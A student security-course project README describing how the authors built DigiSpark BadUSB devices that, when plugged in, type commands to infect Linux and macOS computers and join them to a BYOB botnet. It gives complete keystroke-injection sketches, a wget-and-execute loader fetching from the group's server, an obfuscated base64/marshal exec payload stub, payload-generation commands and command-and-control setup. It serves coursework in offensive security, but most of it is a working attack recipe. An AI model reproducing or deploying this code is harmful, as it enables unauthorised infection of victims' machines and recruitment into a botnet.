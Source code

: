 # CSUS CSC154: Project

## Objective  
The objective of this project was to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

## BadUSB  
To create our BadUSB devices we've used the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices are recognized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### DigiSpark Setup 
We've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 

![amazon](./images/amazon.png)
**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  
![arduino_download](./images/arduino_download.png)
**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   
![digistump_json](./images/digistump_json.png)
**Figure 3:** Add DigiStump board manager url to configuration.

![digistump_boardmanager](./images/digistump_boardmanager.png)
**Figure 4:** Board manager downloading DigiStump's board libraries.

![digistump_default](./images/digistump_setboard.png)
**Figure 5:** Set board to Digispark Default.


### Linux Payload

The following code is what we've developed to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.


#### Loader  
Our BadUSB attack downloads and executes the loader script. For our attack on Linux and OSX machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload for Botnet

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](./images/payload_generated.png)
**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.

![payload_directory](./images/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


### Mac (OSX) Payload
In order to prevent the keyboard configuration dialog box from appearing when the DigiSpark is plugged into an Apple computer, we must configure the DigiSpark to appear as if it's an Apple keyboard.

VID and PID are defined in the file `~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/usbconfig.h`. We will replace the existing file with our [modified Apple version](./scripts/Digispark/usbconfig.h) when compiling the script for OSX. When we change Vendor Name and Device Name, we also have to adapt the constants for the name length.

The following code is what we've developed thus far to infect Apple OSX machines upon plugin.  
```c
#include "DigiKeyboard.h"

/***
 * 
 * This is an attack for Mac (OSX) machines. It opens up a terminal window, and executes the bash command. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

#define MOD_CMD_LEFT 0x00000008

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("bash");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("disown $!");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_Q, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
}

void loop() {

}
```

As you can see above, is very similar to what we've used to exploit Linux machines. The major difference is the way the terminal is opened. We've had to modify the Linux version to use `DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);`, which will open Spotlight, then we delay for .5 seconds, and search "terminal", delay for .5 seconds, and press enter.

After this, in order to ensure we aren't using Z Shell, we'll enter `bash`. From this point on the rest of the code is exactly the same as our Linux payload.  

 
#### Windows 
TODO POWERSHELL!!!!!? Precompile python??


## Botnet  
For our botnet we're using [Build Your Own Botnet](https://github.com/malwaredllc/byob). Our ultimate goal was an easily deployed and managed *command and control server*, with the ability to generate cross platform compatible clients.


### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.

![digitalocean](./images/digitalocean.png)
**Figure 6:** Botnet C&C server droplet on Digital Ocean.

![sheep](./images/sheep.png)
**Figure 7:** ASCII sheep, just for fun.


The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob/byob && pip install -r requirements.txt &&  mv ../../byob /opt/`. This clones the repository, installs the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```

![boot_BYOB](./images/boot_BYOB.png)
**Figure 8:** Botnet server running, no current sessions.

## Examples

### Linux 
Below is an example of a client connecting to the C&C server. This is actually Ryan's laptop connecting, after plugging the BadUSB device into it. 

![infected](./images/infected.png)
\ **Figure 11:** Session on x at wartop (Ryan's Laptop).  

### OSX  
TODO

### Windows   
TODO
